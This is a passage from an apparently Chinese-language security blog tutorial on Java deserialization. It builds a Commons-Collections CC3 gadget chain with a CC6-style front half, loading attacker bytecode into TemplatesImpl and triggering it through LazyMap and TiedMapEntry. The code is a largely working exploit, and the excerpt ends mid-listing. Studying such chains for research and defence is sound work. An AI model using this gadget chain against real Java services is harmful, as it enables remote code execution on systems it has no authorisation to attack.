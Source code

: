 
![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/CC3EXP1.png)

#### CC6 链作为前半部分

- 如法炮制

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// 用 CC6 链的前半部分链子  
public class CC3FinalEXP2 {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
 instantiateTransformer  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); // 防止在反序列化前弹计算器  
 TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");  
 HashMap<Object, Object> expMap = new HashMap<>();  
 expMap.put(tiedMapEntry, "value");  
 lazyMap.remove("key");  
  
 // 在 put 之后通过反射修改值  
 Class<LazyMap> lazyMapClass = LazyMap.class;  
```
